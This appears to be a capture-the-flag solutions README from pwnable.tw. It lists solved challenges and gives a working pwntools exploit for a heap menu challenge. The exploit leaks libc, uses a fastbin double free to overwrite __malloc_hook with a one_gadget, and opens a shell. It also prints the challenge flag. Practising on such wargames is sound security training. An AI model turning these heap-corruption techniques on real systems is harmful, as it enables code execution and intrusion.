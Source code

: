 # PWNABLE.TW

>Author: Nigma

- #### Link pwnable.tw profile: [https://pwnable.tw/user/30002](https://pwnable.tw/user/30002)

## List challenge solved

|    Số thứ tự    |  Thử thách  | Writeup                                                       | Hoàn thiện |
| :-------------: | :---------: | :-----------------------------------------------------------: |:----------:|
|       01        |    Start    | [Start](./1_Start)                                            |✅         |         
|       02        |     orw     | [orw](./2_orw)                                                |✅         |
|       03        |CVE-2018-1160| [CVE-2018-1160](./3_CVE-2018-1160)                            |❌         |
|       04        |    calc     | [calc](./4_calc)                                              |✅         |
|       05        |    3x17     | [3x17](./5_3x17)                                              |✅         |
|       06        |  dubblesort | [dubblesort](./6_dubblesort)                                  |✅         |
|       07        |  hacknote   | [hacknote](./7_hacknote)                                      |✅         |
|       08        |Silver Bullet| [Silver Bullet](https://github.com/NigmaZ/Pwnable/tree/main/Pwnable.tw/8_Silver%20Bullet)                            |✅         |
|       09        |  applestore | [applestore](./9_applestore)                                  |✅         |
|       10        |   Re-alloc  | [Re-alloc](./10_Re-alloc)                                     |❌         |


```python
#!/usr/bin/env python3
from pwn import *
p = remote('chall.pwnable.tw', '10203')
# FLAG{FastBiN_C0rruption_t0_BUrN_7H3_G4rd3n}

elf = ELF('./vuln')
libc = ELF('./libc.so.6')
# context.update(binary=elf, log_level='DEBUG')
# p = elf.process()
# gdb.attach(p, '''
# 	breakrva 0x10ba
# 	breakrva 0x10c6
# 	breakrva 0x10d2
# 	breakrva 0x10de
# ''')
# v0 - check flower is existing
# v0[1] - name flower
# v0[2] - color flower // 24

def raiseFlower(length, name, color): 
	p.sendlineafter(b'choice : ', b'1')
	print(p.recvuntil(b'name :'))
	p.sendline(str(int(length)).encode())
	print(p.recvuntil(b'flower :'))
	p.sendline(name)
	print(p.recvuntil(b'flower :'))
	p.sendline(color)
	return

def listFlower():
	p.sendlineafter(b'choice : ', b'2')
	return

def removeFlower(idx):
	p.sendlineafter(b'choice : ', b'3')
	print(p.recvuntil(b'garden:'))
	p.sendline(str(int(idx)).encode())
	return

def deleteGarden():
	p.sendlineafter(b'choice : ', b'4')
	return

############################ leak libc ###################################
# libc 2.23 not delete data (ptr manager, junk) when free and malloc again
raiseFlower(0x100, b'A' * 0x10, b'B' * 0x10)
raiseFlower(0x60, b'C' * 0x10, b'D' * 0x10)
raiseFlower(0x60, b'E' * 0x10, b'F' * 0x10)
raiseFlower(0x60, b'G' * 0x10, b'H' * 0x10)

removeFlower(0)
deleteGarden()

# gdb.attach(p, '''
# 	breakrva 0x10ba
# 	breakrva 0x10c6
# 	breakrva 0x10d2
# 	breakrva 0x10de
# ''')

raiseFlower(0x100, b'A' * 0x7, b'B' * 0x10)
listFlower()

p.recvuntil(b'AAAAAAA\n')
leak = (p.recv(6)).ljust(8, b'\x00')
main_arena88 = u64(leak)
libc.address = main_arena88 - 88 - libc.symbols['main_arena']
malloc_hook = libc.symbols['__malloc_hook']
log.info('libc base address:      ' + hex(libc.address))
log.info('&__malloc_hook address: ' + hex(malloc_hook))

######################### trigger double free #############################

removeFlower(1)
removeFlower(2)
removeFlower(1)
deleteGarden()


fake_chunk = malloc_hook - 0x23 # junk 
log.info('fake_chunk address: ' + hex(fake_chunk))
listFlower()
raiseFlower(0x60, p64(fake_chunk), b'B' * 0x10) #### value target
raiseFlower(0x60, b'A' * 0x7, b'B' * 0x10)
raiseFlower(0x60, b'A' * 0x7, b'B' * 0x10)

#### done trigger bug
one_gadget_offset = 0xef6c4
one_gadget = libc.address + one_gadget_offset
log.info('One gadget : ' + hex(one_gadget))
raiseFlower(0x60, b'A' * 0x13 + p64(one_gadget), b'B' * 0x10)

# trigger malloc_hook such that it satisfies the one gadget constrains
removeFlower(2)
removeFlower(2)
# interactive shell
p.interactive()
```
